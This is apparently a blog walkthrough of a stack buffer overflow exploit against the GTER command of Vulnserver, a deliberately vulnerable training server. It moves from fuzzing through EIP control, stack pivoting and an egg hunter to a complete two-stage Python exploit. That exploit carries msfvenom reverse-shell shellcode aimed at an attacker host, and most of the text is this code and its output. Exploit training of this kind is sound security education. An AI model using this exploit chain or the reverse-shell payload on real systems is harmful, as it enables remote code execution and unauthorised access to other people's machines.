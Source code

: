 # Vulnserver GTER - Stack pivoting & Egg hunting

- [Vulnserver GTER - Stack pivoting & Egg hunting](#vulnserver-gter---stack-pivoting--egg-hunting)
  - [Prologue](#prologue)
  - [Spiking the Vulnserver](#spiking-the-vulnserver)
  - [Analysing the source code](#analysing-the-source-code)
  - [Fuzzing the server](#fuzzing-the-server)
  - [Finding offset](#finding-offset)
  - [Overwriting Instruction Pointer](#overwriting-instruction-pointer)
  - [Finding bad characters](#finding-bad-characters)
  - [Redirecting code execution](#redirecting-code-execution)
  - [Stack pivoting](#stack-pivoting)
  - [Crafting egg hunter](#crafting-egg-hunter)
  - [Crafting shellcode](#crafting-shellcode)
  - [Staging shellcode](#staging-shellcode)
  - [Exploitation](#exploitation)

## Prologue

In this blog post, will discuss about ```GTER``` command from Vulnserver, where we will be exploiting it by using ```stack pivoting``` and ```egg hunting``` 

## Spiking the Vulnserver

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat gter.spk 
s_readline();
s_string("GTER ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ generic_send_tcp 192.168.116.140 9999 gter.spk 0 0 
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005

...

```

While spiking GTER command, we could see that we could not connect to the Vulnserver anymore

Yes.. It got crashed!!

We could see that our Vulnserver application has been terminated by ```Access Violation error```

From this we can confirm that, ```GTER``` command is vulnerable to Buffer Overflow attack

## Analysing the source code

The source code for this command is,

```c
 else if (strncmp(RecvBuf, "GTER ", 5) == 0) {
				char *GterBuf = malloc(180);
				memset(GdogBuf, 0, 1024);
				strncpy(GterBuf, RecvBuf, 180);				
				memset(RecvBuf, 0, DEFAULT_BUFLEN);
				Function1(GterBuf);
				SendResult = send( Client, "GTER ON TRACK\n", 14, 0 );
			}
```

It copies only ```180 bytes``` of our data into ```GterBuf``` by using ```strncpy()```

```strncpy()``` is not vulnerable, but we have only ```small buffer space``` which becomes a constraint for us

After storing these, it invokes the vulnerable function ```Function1(GterBuf)```

The souce code of this vulnerable function is,

```c
void Function1(char *Input) {
	char Buffer2S[140];
	strcpy(Buffer2S, Input);
}
```

Here the main overflow attack is caused by ```strcpy``` function, where ```Buffer2S``` is only limited for 140 bytes but the incoming buffer has more data (180 bytes) than that causing it to overflow the Buffer2S buffer while copying

This command does not expects any special character used for validation

## Fuzzing the server

We have successfully crashed our server and the payload data begins with ```GTER ``` which is made up of ```5 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat fuzzing.py
import socket, sys
from time import sleep
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"GTER "+payload))
        sleep(5)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 fuzzing.py
Fuzzing crashed at 300 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors while fuzzing

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```300 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding offset

Creating pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 300 
<GENERATED PATTERN>
```

Fuzzing with the pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat offset.py       
import socket, sys
pattern=b"<GENERATED PATTERN>"
payload=b""
# fuzzing for EIP offset
payload+=pattern
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 offset.py       
```

This will crash the program, where our buffer will get overflowed and fills the Base Pointer and Instruction Pointer with the data from the pattern

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-offset-reg.png" style="width:40%">
</div>

Here we can see ```EIP``` has a data from the pattern we created, we can also use metasploit to find the offset

Lets find the offset using mona by ```!mona findmsp```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-offset-findmsp.png">
</div>

We can see that our ```EIP``` is at the offset of ```151 bytes``` in the pattern

So we should use 5 bytes of ```GTER ``` and 151 bytes of ```A's``` to reach ```EIP```

## Overwriting Instruction Pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat overwrite-eip.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 overwrite-eip.py 
```

We have successfully overwrote the ```EIP``` with our own data ```0x44444444```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-overwrite-offset.png" style="width:40%">
</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets pass bad characters on our ```ESP``` memory to see our data dump on that region

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat badchars.py     
import socket, sys
# collection of badchars except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP
payload+=b"B"*4
# fuzzing badchars on ESP
payload+=badchars
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 badchars.py      
```

It seems like, we don't have enough space to store all bad characters in ESP

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-badchars-offset.png">
</div>

We could pass limited set of bad characters again and again in sequence to test it

Or we could store that ```before EIP (EAX - Buffer data)``` and test it

Anyways, by testing in this method we could confirm there are no bad characters except ```null byte```

## Redirecting code execution

As for now, we can control the ```EIP``` and also we have only one ```bad character x00```,

Since we can control ```EIP```, we can use this as our advantage and redirect the code flow to any part of the memory where it is perfect to have shellcode execution along with our egg hunter

Lets find the perfect module for ```JMP ESP``` to get perfect redirection using ```!mona modules```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-modules.png">
</div>

On these, we can clearly see that only ```two modules``` have every security mitigations turned off

From these two, it is always best to try our exploit from an DLL of the own application and not from the actual exe itself

Lets find the ```jmp esp``` opcode from the memory of ```essfunc.dll```

To find the opcode using mona, we need the hex value of the opcode which can be done by ```nasm shell```

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ locate nasm_shell
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
                                                                       
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > exit
```

Finding this offset using mona by the command ```!mona find -s \xff\xe4 -m essfunc.dll```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-jmpesp.png">
</div>

We could see there are 9 pointers available for this exploit which has ```jmp esp``` opcode in it and it also doesn’t change its memory address

Eventhough ```ASLR``` is enabled for other parts, here it is disabled which makes the address to remain static & suitable for exploitation

```NX bit``` is also disabled, which allows us to execute shellcode on stack memory

Also, while checking the pointer addresses make sure that the address do not contain bad characters in it, which may cause poor exploitation

Lets craft the script and enter the address of the opcode in ```little endian``` format because the data in stack is placed in little endian format

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat jmp-esp.py    
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# padding
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 jmp-esp.py
```

After crashing, we can see that we landed perfectly on ESP memory

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-jmpesp-reg.png" style="width:40%">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

But the main constraint here is our buffer size, it is so small to fit our shellcode in it

What we can do is, place an ```egg hunter / opcodes for re-using socket``` to get the ```second stage shellcode``` to exploit the program

In this blog we will try to exploit this by using ```egg hunter```

## Stack pivoting

Since we are going to use ```egg hunter``` for this exploit, we need to store it somewhere

ESP has small size, so we need to place it in our buffer data and use ```short jump/ long jump``` to get back there

Lets try to land on 10th byte of buffer data which has ```5 bytes``` of ```GTER ``` first and extra 5 bytes of junk after it (Use NOPs for better working exploit) 

Our buffer data is being stored in ```EAX```, you can verify it using registers

Lets create the opcode value to drift back to EAX register using nasm-shell,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > add eax,0x10
00000000  83C010            add eax,byte +0x10
nasm > jmp eax
00000000  FFE0              jmp eax
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 stack-pivot.py 
```

After crashing the server, we can see this after executing ```JMP ESP```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-shortjump-opcode.png">
</div>

Here we can see the opcode for the ```long jump to EAX register``` that we have crafted

After proceeding with step intos from ```JMP ESP```, we will hit the jump instruction and will be redirected here

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-shortjump-jump.png">
</div>

We have landed successfully past 10 bytes in the buffer data memory which we have sent

## Crafting egg hunter

We have used ```jmp eax``` to reach the buffer data memory, which is the perfect place to store our ```egg hunter```

Lets craft an egg hunter using ```!mona egg -t PWND -wow64 -winver 10```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-mona-egg.png">
</div>

Now we have crafted our egg hunter of ```50 bytes```, lets place it in our python script and lets test it whether we are able to reach it after ```jmp eax```

Lets add ```NOPS sled``` before egg hunter to reach it effectively

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat egg-hunter.py 
import socket, sys
egg_hunter=b""
egg_hunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg_hunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg_hunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg_hunter+=b"\xff\xe7"
payload=b""
# to overwrite buffer and EBP
# NOP sled
payload+=b"\x90"*40 
# egg hunter
payload+=egg_hunter
payload+=b"C"*(151-len(payload))
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 egg-hunter.py
```

After analysing it with break points, we can see that we are ahead of our egg hunter with NOPS sled which will execute perfectly

## Crafting shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"
```

We have crafted our shellcode which is made up of ```351 bytes``` and it is almost impossible to send our payload in buffer data or in ESP

So lets use a ```staging exploitation technique``` to send this payload

## Staging shellcode

Since we are using ```egg hunters``` to find the shellcode, it is mandatory that the shellcode should be found within the ```Virtual Address Space``` of the process

We can execute our shellcode in the VAS of the same process by,

- ```FIRST STAGE``` - Sending the shellcode with other commands which utilizes large buffer space to store the shellcode
- The shellcode sent will be saved in the memory
- ```SECOND STAGE``` - Sending our egg hunter after that, using our buffer data in which we have control to hunt the shellcode
- The egg hunter analyses the EGG in VAS memory and makes the shellcode to get executed

By seeing the source code, ```TRUN``` command  will be suitable for storing the first staged payload

```c
else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
				char *TrunBuf = malloc(3000);
				memset(TrunBuf, 0, 3000);
				for (i = 5; i < RecvBufLen; i++) {
					if ((char)RecvBuf[i] == '.') {
						strncpy(TrunBuf, RecvBuf, 3000);				
						Function3(TrunBuf);
						break;
					}
				}
				memset(TrunBuf, 0, 3000);				
				SendResult = send( Client, "TRUN COMPLETE\n", 14, 0 );
			}
```

When we pass our payload inside this, we can use our egg hunter to hunt for the shellcode because it will be in the same VAS

## Exploitation

The exploit script for this buffer overflow via ```GTER``` command is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat exploit.py    
import socket, sys
from time import sleep

egg=b"PWNDPWND"

egg_hunter=b""
egg_hunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egg_hunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egg_hunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egg_hunter+=b"\xff\xe7"

buf =  b""
buf += b"\xd9\xc6\xd9\x74\x24\xf4\xbe\x4b\x0e\xc3\xd4\x58\x33"
buf += b"\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\x3b\x1d\x21"
buf += b"\x21\x47\xc9\x27\xca\xb7\x0a\x48\x42\x52\x3b\x48\x30"
buf += b"\x17\x6c\x78\x32\x75\x81\xf3\x16\x6d\x12\x71\xbf\x82"
buf += b"\x93\x3c\x99\xad\x24\x6c\xd9\xac\xa6\x6f\x0e\x0e\x96"
buf += b"\xbf\x43\x4f\xdf\xa2\xae\x1d\x88\xa9\x1d\xb1\xbd\xe4"
buf += b"\x9d\x3a\x8d\xe9\xa5\xdf\x46\x0b\x87\x4e\xdc\x52\x07"
buf += b"\x71\x31\xef\x0e\x69\x56\xca\xd9\x02\xac\xa0\xdb\xc2"
buf += b"\xfc\x49\x77\x2b\x31\xb8\x89\x6c\xf6\x23\xfc\x84\x04"
buf += b"\xd9\x07\x53\x76\x05\x8d\x47\xd0\xce\x35\xa3\xe0\x03"
buf += b"\xa3\x20\xee\xe8\xa7\x6e\xf3\xef\x64\x05\x0f\x7b\x8b"
buf += b"\xc9\x99\x3f\xa8\xcd\xc2\xe4\xd1\x54\xaf\x4b\xed\x86"
buf += b"\x10\x33\x4b\xcd\xbd\x20\xe6\x8c\xa9\x85\xcb\x2e\x2a"
buf += b"\x82\x5c\x5d\x18\x0d\xf7\xc9\x10\xc6\xd1\x0e\x56\xfd"
buf += b"\xa6\x80\xa9\xfe\xd6\x89\x6d\xaa\x86\xa1\x44\xd3\x4c"
buf += b"\x31\x68\x06\xc2\x61\xc6\xf9\xa3\xd1\xa6\xa9\x4b\x3b"
buf += b"\x29\x95\x6c\x44\xe3\xbe\x07\xbf\x64\x01\x7f\xcb\xf4"
buf += b"\xe9\x82\x33\xd3\x7d\x0b\xd5\x71\x6e\x5a\x4e\xee\x17"
buf += b"\xc7\x04\x8f\xd8\xdd\x61\x8f\x53\xd2\x96\x5e\x94\x9f"
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"

stage1_payload=b""
stage1_payload+=egg
stage1_payload+=buf

stage2_payload=b""
stage2_payload+=b"\x90"*40
stage2_payload+=egg_hunter
stage2_payload+=b"C"*(151-len(stage2_payload))
stage2_payload+=b"\xaf\x11\x50\x62"
stage2_payload+=b"\x90"
stage2_payload+=b"\x83\xc0\x10"
stage2_payload+=b"\xff\xe0"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"TRUN /.:/"+stage1_payload))
print("[+] Stage 1 payload sent")
s.close()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+stage2_payload))
print("[+] Stage 2 payload sent")
s.close()

print("[+] Exploit complete.. Shell spawned")
```

By running this exploit, we would successfully spawn a reverse shell by executing our shellcode

[EXPLOIT VIDEO](https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/hter-exploit.mp4)
